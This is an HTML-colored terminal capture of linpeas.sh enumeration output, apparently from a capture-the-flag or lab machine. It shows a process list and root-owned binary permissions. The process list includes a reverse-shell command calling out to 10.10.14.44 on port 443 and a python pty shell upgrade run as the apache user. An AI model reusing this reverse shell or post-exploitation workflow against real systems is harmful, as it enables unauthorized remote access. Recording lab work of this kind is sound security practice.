<font color="#EF2929"><b>root</b></font>       3652  0.0  0.3 214444  3956 ?        Ssl  14:49   0:00 /usr/sbin/r<font color="#8AE234"><b>syslog</b></font>d -n
<font color="#EF2929"><b>root</b></font>       3653  0.0  1.2 314672 12128 ?        Ss   14:49   0:00 /usr/sbin/httpd -DFOREGROUND
<font color="#EF2929"><b>root</b></font>       3654  0.0  1.9 573924 19148 ?        Ssl  14:49   0:00 /usr/bin/python2 -Es /usr/sbin/tuned -l -P
<font color="#EF2929"><b>root</b></font>       3656  0.0  0.4 112864  4312 ?        Ss   14:49   0:00 /usr/sbin/<font color="#729FCF"><b>sshd</b></font> -D
<font color="#EF2929"><b>root</b></font>       3671  0.0  0.2 111192  2812 ?        Ss   14:49   0:00 send<font color="#8AE234"><b>mail</b></font>: accepting connections
<font color="#729FCF"><b>smmsp</b></font>      3686  0.0  0.2 106616  2024 ?        Ss   14:49   0:00 send<font color="#8AE234"><b>mail</b></font>: Queue runner@01:00:00 for /var/spool/clientmqueue
<font color="#AD7FA8"><b>apache</b></font>     3688  0.0  0.8 315128  8108 ?        S    14:49   0:00 /usr/sbin/httpd -DFOREGROUND
<font color="#AD7FA8"><b>apache</b></font>     3689  0.0  1.0 315136 10248 ?        S    14:49   0:00 /usr/sbin/httpd -DFOREGROUND
<font color="#AD7FA8"><b>apache</b></font>     3690  0.0  1.0 315128 10772 ?        S    14:49   0:00 /usr/sbin/httpd -DFOREGROUND
<font color="#AD7FA8"><b>apache</b></font>     3691  0.0  1.0 315640 10128 ?        S    14:49   0:00 /usr/sbin/httpd -DFOREGROUND
<font color="#AD7FA8"><b>apache</b></font>     3692  0.0  0.7 314804  7880 ?        S    14:49   0:00 /usr/sbin/httpd -DFOREGROUND
<font color="#AD7FA8"><b>apache</b></font>     3870  0.0  0.7 314808  7688 ?        S    14:50   0:00 /usr/sbin/httpd -DFOREGROUND
<font color="#EF2929"><b>root</b></font>       3913  0.0  0.0 123260   740 ?        Ss   15:01   0:00 /usr/sbin/ana<font color="#8AE234"><b>cron</b></font> -s
<font color="#AD7FA8"><b>apache</b></font>     3916  0.0  0.1  11680  1368 ?        S    15:01   0:00 /bin/bash -c bash -i &gt;&amp; /dev/tcp/10.10.14.44/443 0&gt;&amp;1
<font color="#AD7FA8"><b>apache</b></font>     3917  0.0  0.1  11684  1716 ?        S    15:01   0:00 bash -i
<font color="#AD7FA8"><b>apache</b></font>     3930  0.0  0.4  26028  4748 ?        S    15:05   0:00 python -c import pty; pty.spawn(&quot;/bin/bash&quot;)
<font color="#AD7FA8"><b>apache</b></font>     3931  0.0  0.1  11816  1868 pts/0    Ss   15:05   0:00 /bin/bash
<font color="#AD7FA8"><b>apache</b></font>    13059  3.0  0.1   9828  1688 pts/0    S+   15:11   0:00 /bin/sh ./linpeas.sh -a
<font color="#AD7FA8"><b>apache</b></font>    13250  0.0  0.1  51740  1740 pts/0    R+   15:11   0:00 ps aux

<font color="#FCE94F"><b>[+] </b></font><font color="#8AE234"><b>Binary processes permissions</b></font>
<font color="#729FCF"><b>[i] </b></font><font color="#FCE94F"><b>https://book.hacktricks.xyz/linux-unix/privilege-escalation#processes</b></font>
-rwxr-xr-x. 1 <font color="#8AE234"><b>root</b></font> root  964608 Oct 30  2018 /bin/bash
lrwxrwxrwx. 1 <font color="#8AE234"><b>root</b></font> root       4 Jul  2  2019 /bin/sh -&gt; bash
-rwxr-xr-x. 1 <font color="#8AE234"><b>root</b></font> root   49680 Mar 14  2019 /sbin/agetty
-rwxr-xr-x. 1 <font color="#8AE234"><b>root</b></font> root  124536 Oct 30  2018 /sbin/auditd
-rwxr-xr-x. 1 <font color="#8AE234"><b>root</b></font> root  128512 Nov  2  2018 /usr/bin/VGAuthService
-rwxr-xr-x. 1 <font color="#8AE234"><b>root</b></font> root  223320 Mar 14  2019 /usr/bin/<font color="#729FCF"><b>dbus</b></font>-daemon
lrwxrwxrwx. 1 <font color="#8AE234"><b>root</b></font> root       7 Jul  2  2019 /usr/bin/python -&gt; python2
lrwxrwxrwx. 1 <font color="#8AE234"><b>root</b></font> root       9 Jul  2  2019 /usr/bin/python2 -&gt; python2.7
-rwxr-xr-x. 1 <font color="#8AE234"><b>root</b></font> root   48984 Nov  2  2018 /usr/bin/vmtoolsd
-rwxr-xr-x. 1 <font color="#8AE234"><b>root</b></font> root  120520 Mar  8  2019 /usr/lib/polkit-1/<font color="#729FCF"><b>polkitd</b></font>
-rwxr-xr-x  1 <font color="#8AE234"><b>root</b></font> root 1620416 Jul  3  2019 /usr/lib/systemd/systemd
-rwxr-xr-x  1 <font color="#8AE234"><b>root</b></font> root  346264 Jul  3  2019 /usr/lib/systemd/systemd-journald
-rwxr-xr-x  1 <font color="#8AE234"><b>root</b></font> root  635816 Jul  3  2019 /usr/lib/systemd/systemd-logind